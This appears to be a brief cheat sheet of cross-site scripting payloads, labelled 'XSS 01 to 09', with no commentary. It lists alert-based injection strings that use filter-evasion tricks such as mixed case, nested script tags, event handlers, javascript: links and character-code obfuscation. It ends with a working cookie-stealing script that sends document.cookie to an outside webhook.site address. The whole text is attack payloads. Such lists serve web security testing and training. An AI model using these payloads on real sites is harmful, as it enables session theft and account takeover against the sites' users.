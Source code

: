 # XSS 01 to 09

`<script>alert(1)</script>`

`<sCript>alert(1)</sCRIpt>`

`<sc<script>ript>alert(1)</sc</script>ript>`

`<img src="1" onerror="alert('1')">`

`<a onmouseover ="alert('1')">test </a>`

`<a href='javascript:alert(1)'> test </a>`

`<divonmouseover ="alert('1')">test </div>`

`<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41) )</script>`

`hacker%27;alert(%2744073236-f0a6-4005-bb2f-9307b4fcd1a4%27);//`

`https://someSite.com/index.php/”><script>alert(“XSS”)</script>`

```
<script>
document.write('<img src="https://webhook.site/69a38b1b-c965-4320-b7bf-c015174c9f93?c='%2bdocument.cookie%2b'" />');
</script>
```
